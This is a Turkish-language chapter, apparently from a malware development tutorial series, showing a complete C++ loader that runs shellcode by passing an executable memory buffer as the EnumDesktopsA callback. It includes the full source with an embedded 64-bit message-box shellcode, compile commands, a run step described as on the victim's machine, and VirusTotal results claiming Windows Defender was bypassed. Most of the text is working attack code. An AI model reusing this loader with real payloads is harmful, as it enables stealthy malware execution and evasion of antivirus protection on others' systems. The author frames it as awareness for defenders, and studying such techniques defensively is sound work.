 \newpage
\subsection{33. zararlı yazılım geliştirme tüyoları. EnumDesktopsA kullanarak shellcode çalıştırma. C++ örneği.}

﷽

![injection](./images/60/2022-06-27_14-08.png){width="80%"}    

Bu bölüm, ilginç bir numara üzerine yaptığım araştırmaların bir sonucudur: shellcode'u masaüstlerini listeleyerek çalıştırmak.    

### EnumDesktopsA

EnumDesktopsA, çağrı yapan işlemin belirtilen pencere istasyonuyla ilişkili tüm masaüstlerini listeler.    

Bu işlev, her masaüstünün adını, uygulama tarafından tanımlanan bir geri çağırma işlevine iletir:    

```cpp
BOOL EnumDesktopsA(
  HWINSTA          hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM           lParam
);
```

### pratik örnek

Hadi, pratik bir örneğe bakalım. Bu numara oldukça basittir:     

```cpp
/*
 * hack.cpp - run shellcode via EnumDesktopA. 
 C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/06/27/malware-injection-20.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload),
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumDesktopsA(GetProcessWindowStation(), 
  (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Gördüğünüz gibi, ilk olarak `VirtualAlloc` kullanarak mevcut işlemde bir bellek tamponu ayırıyoruz:    

```cpp
LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), 
MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

Daha sonra payload'umuzu bu bellek bölgesine "kopyalıyoruz":    

```cpp
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
```

Ve ardından, `EnumDesktopsA` işlevindeki geri çağırma işlevine işaretçi olarak bu bellek bölgesini belirtiyoruz:     

```cpp
EnumDesktopsA(GetProcessWindowStation(), 
(DESKTOPENUMPROCA)mem, NULL);
```

Her zamanki gibi, basitlik adına `meow-meow` mesaj kutusu payload'unu kullandım:     

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Şimdi her şeyi eylemde görelim. Zararlı yazılımımızı derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection](./images/60/2022-06-27_14-28.png){width="80%"}    

ve kurbanın makinesinde çalıştırıyoruz:    

```powershell
.\hack.exe
```

![injection](./images/60/2022-06-27_14-32.png){width="80%"}    

![injection](./images/60/2022-06-27_14-34.png){width="80%"}    

Gördüğünüz gibi, her şey mükemmel bir şekilde çalıştı :)    

Şimdi `hack.exe` dosyamızı VirusTotal'a yükleyelim:    

![injection](./images/60/2022-06-27_14-37.png){width="80%"}    

**Sonuç olarak, 66 antivirüs motorundan 16 tanesi dosyamızı zararlı olarak algıladı.**    

[https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection](https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection)    

Ve ilginç olan şu ki, bu numara Windows Defender'ı atlattı.      

![injection](./images/60/2022-06-27_14-39.png){width="80%"}    

Umarım bu bölüm, bu ilginç teknik hakkında mavi takım üyelerine farkındalık kazandırır ve kırmızı takım üyelerinin cephaneliğine bir silah daha ekler.     

[EnumDesktopsA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumdesktopsa)    
[Github'taki kaynak kod](https://github.com/cocomelonc/2022-06-27-malware-injection-20)   
